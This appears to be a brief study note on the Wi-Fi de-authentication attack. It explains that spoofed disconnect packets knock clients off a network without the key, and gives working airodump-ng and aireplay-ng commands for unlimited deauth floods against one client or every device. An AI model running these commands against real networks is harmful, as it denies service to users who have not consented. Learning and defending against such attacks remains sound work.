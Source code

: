```yaml
---
title: De-Authentication Attack
date: 2024-01-28 14:15:56 -0600
---
```


The attack is performed by changing our MAC to Target MAC and sending Disconnect Request to the Router  
Then acting as the Router and send disconnect packet to Target  
This attack can be performed on all networks. No need to know the connection key. No need to connect to the network as well

````bash
# Sniff the Network to attack
airodump-ng --bssid <router-bssid> --channel <channel> <interface> 
aireplay-ng --deauth 0 -a <router-bssid> -c <target-bssid> <interface>
````

By using `0` as value for `--deauth` we are saying send infinite deauth packets to target. We can use a number to limit the amount of packets sent.  
If we do not use `-c` flag in deauth attack then all devices on the network will be disconnected
